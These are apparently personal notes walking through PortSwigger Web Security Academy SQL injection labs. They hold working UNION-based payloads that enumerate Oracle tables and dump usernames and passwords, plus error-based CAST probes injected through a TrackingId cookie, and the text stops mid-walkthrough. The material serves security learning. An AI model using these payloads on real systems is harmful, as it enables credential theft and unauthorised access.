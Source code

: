 # Encounters with SQLi

# SQL injection attack, listing the database contents on Oracle

Get logged in as Administrator using the SQLi vulnerability. 
## Observations
- Server errors out on a single quote to the Categories filter param. 
- Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:

```'+UNION+SELECT+'abc','def'+FROM+dual--```
- Use the following payload to retrieve the list of tables in the database:

```'+UNION+SELECT+table_name,NULL+FROM+all_tables--```
- Find the name of the table containing user credentials.
Use the following payload (replacing the table name) to retrieve the details of the columns in the table:

```'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ADBYJT'--```
- Find the names of the columns containing usernames and passwords.
Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:

```'+UNION+SELECT+USERNAME_ADGIOH,+PASSWORD_DXIGSJ+FROM+USERS_ABCDEF-- ```

Final payload:
```GET /filter?category=Gifts%27%20UNION%20SELECT%20USERNAME_ADGIOH,PASSWORD_DXIGSJ+FROM+USERS_ADBYJT--```
Find the password for the administrator user, and use it to log in.

## Visible error-based SQL injection
In the Shop app, get the administrator username and password. 
## Observations
- The TrackingId cookie is vulnerable to SQLi. 
- There is only 1 column:
```
GET /filter?category=Gifts HTTP/2
Host: 0ac100860458d22081a92fdb004300d4.web-security-academy.net
Cookie: TrackingId=TynCM5K6RLRKdCPa'+ORDER+BY+1--; session=rzBGt19n6jve3MMgkapeHCTeDfGy3NpX
```
- Adapt the query to include a generic SELECT subquery and cast the returned value to an int data type:

```TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--```
Send the request. Observe that you now get a different error saying that an AND condition must be a boolean expression.

- Modify the condition accordingly. For example, you can simply add a comparison operator (=) as follows:

```TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--```
Send the request. Confirm that you no longer receive an error. This suggests that this is a valid query again.

- Adapt your generic SELECT statement so that it retrieves usernames from the database:

```TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--```
Observe that you receive the initial error message again. Notice that your query now appears to be truncated due to a character limit. As a result, the comment characters you added to fix up the query aren't included.

```